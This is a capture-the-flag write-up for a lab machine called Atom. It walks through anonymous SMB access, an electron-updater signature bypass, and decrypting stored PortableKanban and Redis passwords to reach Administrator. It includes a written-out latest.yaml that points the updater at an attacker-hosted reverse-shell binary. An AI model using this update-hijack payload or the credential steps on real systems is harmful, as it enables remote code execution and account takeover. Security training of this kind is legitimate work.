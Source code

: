 # Atom

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

There's a `redis` server running on the machine, and also WinRM for whatever reason. SMB Shares might be accessible on this server.

### SMB Shares

Using `smbmap`, there is one share that is readable even without credentials.

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

The Software\_Updates one is new. We can connect to it and see what are the files present.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The PDF contained some useful information:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

We can place an update within this share's client folders, and then a user would run it. This is probably the way to gain a reverse shell.

### Electron

When checking the web portal, we see that it's a regular corporate website.

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

There was a download button on the page, presumably to download the program used for this application. This would make us download a .exe file.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

We can actually open .exe files to find out what is within it.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

When viewing the plugins directory, we would find an app.7z file which we can open to reveal the resources.

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

We can take a look at the resources file to view the source code and stuff, and there we find more hints that this is a Electron application.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

We can dive further into the .asar file using `asar`.

<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

Within the main.js file, we can find that `electron-updater` was imported within this application.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### Signature Bypass

Searching for exploits for electron-updater led me to this website:

{% embed url="https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html" %}

In short, it's possible to bypass the signature checks that determine if an electron update is legitimate or not. This is done through altering the `latest.yaml` file. So, by bypassing this signature check, the updater would execute any malicious code we use.

This is in line with the information on the PDF we found earlier, telling us to place updates within the share for it to be executed. We can follow the PoC provided.

First, we can generate a quick reverse shell binary with `msfvenom`.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, we need to change the name of this binary to have an `'` character within it. I named mine `v'rev.exe`. Then, we need to take the sha512 hash of this file and base64 encode it.

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Then, we can create the `latest.yaml` file to have a custom HTTP path for the update with the hash value. Afterwards, we can host the binary on a Python HTTP server.

```yaml
version: 2.2.3
files:
  - url: http://10.10.16.9/r'ev.exe
    sha512: <hash value>
    size: 7168     
path: http://10.10.16.9/r'ev.exe
sha512: <hash value>
releaseDate: '2022-03-14T11:17:02.627Z'
```

Upon creation, we would need to put this YAML file within the client directory of the share we accessed earlier.&#x20;

<figure><img src="../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

After a while, our HTTP server would get a hit and our listener port would catch a reverse shell.

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kanban Redis Creds

Within the user's Downloads folder, we can find a PortableKanban instance.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Within the folder, we can find an encrypted password for the `redis` instance on the machine.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Quick googling led me to an exploit, which allows for us to decrypt the passwords using DES.

{% embed url="https://www.exploit-db.com/exploits/49409" %}

I used CyberChef to decrypt the password using the key and IV extracted from the exploit.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

After finding this password, we can use `redis-cli` to login to the redis instance.

### Redis Creds

Logging in:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

We can check all the keys present on this machine:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

The user key with some kind of GUID was the first I checked. We can do so with `get <name>`. This revealed another encrypted password for the Administrator.

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

We can decrypt this using the same CyberChef configurations.

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

Then, we can use `evil-winrm` to log in as the administrator.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
